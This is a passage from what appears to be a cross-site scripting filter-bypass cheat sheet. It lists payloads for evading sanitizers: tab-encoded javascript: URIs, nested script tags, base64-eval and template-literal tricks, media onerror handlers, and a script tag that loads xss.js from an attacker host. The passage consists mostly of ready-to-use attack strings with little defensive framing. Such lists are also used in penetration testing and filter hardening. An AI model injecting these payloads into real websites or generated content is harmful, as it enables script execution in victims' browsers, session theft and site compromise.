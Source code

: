### 8. Whitespace Tricks
Insert tabs/newlines:
```javascript
jav%09ascript:alert(1)
```

### 9. Nested Attacks
For non-recursive filters:
```html
<scr<script>ipt>alert(1)</script>
```

### 10. External Script Loading
Reference external scripts:
```html
<script src=https://attacker.com/xss.js></script>
```



## Advanced Bypass Techniques

### 1. Base64 Encoding
```html
<svg onload=eval(atob('YWxlcnQoMSk='))>
```
(Decodes to `alert(1)`) 

### 2. Template Literals
Avoid quote filtering:
```html
<svg onload=alert`1`>
```

### 3. HTML5 Features
New HTML5 vectors:
```html
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
```

### 4. Dynamic Property Loading
```javascript
document.body.style.backgroundImage = "url(javascript:alert(1))";
```

### 5. ECMAScript 6 Features
Use arrow functions:
```javascript
setTimeout(()=>alert(1))
```

